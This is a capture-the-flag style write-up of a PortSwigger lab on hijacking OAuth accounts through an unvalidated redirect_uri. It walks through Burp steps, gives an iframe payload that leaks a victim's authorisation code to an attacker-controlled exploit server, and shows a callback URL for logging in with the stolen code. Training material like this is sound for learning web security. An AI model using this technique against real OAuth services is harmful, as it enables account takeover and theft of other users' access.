# OAuth account hijacking via redirect_uri

## Description

[This lab](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri) uses an `OAuth` service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorisation codes associated with other users' accounts.

## Reproduction and proof of concept

1. While proxying traffic through Burp, click **My account** and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
2. Log out and then log back in again. Observe that you are logged in instantly this time. As you still had an active session with the OAuth service, you didn't need to enter your credentials again to authenticate yourself.
3. In Burp, study the OAuth flow in the proxy history and identify the **most recent** authorisation request. This should start with `GET /auth?client_id=[...]`. Notice that when this request is sent, you are immediately redirected to the `redirect_uri` along with the authorisation code in the query string. Send this authorisation request to Burp Repeater.
4. In Burp Repeater, observe that you can submit any arbitrary value as the `redirect_uri` without encountering an error. Notice that your input is used to generate the redirect in the response.
5. Change the `redirect_uri` to point to the exploit server, then send the request and follow the redirect. Go to the exploit server's **access log** and observe that there is a log entry containing an authorisation code. This confirms that you can leak authorisation codes to an external domain.
6. Go back to the exploit server and create the following `iframe` at `/exploit`:

```text
<iframe src="https://YOUR-LAB-OAUTH-SERVER-ID.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

7. Store the exploit and click **View exploit**. Check that your `iframe` loads and then check the exploit server's access log. If everything is working correctly, you should see another request with a leaked code.
8. **Deliver the exploit** to the victim, then go back to the access log and copy the victim's code from the resulting request.
9. Log out of the blog website and then use the stolen code to navigate to:

```text
https://lab-id.web-security-academy.net/oauth-callback?code=STOLEN-CODE
```

10. The rest of the OAuth flow will be completed automatically, and you will be logged in as the `admin` user. Open the admin panel and delete Carlos.


## Exploitability

An attacker will need to log in to `wiener:peter`; and then steal an authorisation code associated with the admin user; then use it to access their account and delete Carlos.

The admin user will open anything sent from the exploit server, and always has an active session with the `OAuth` service. 
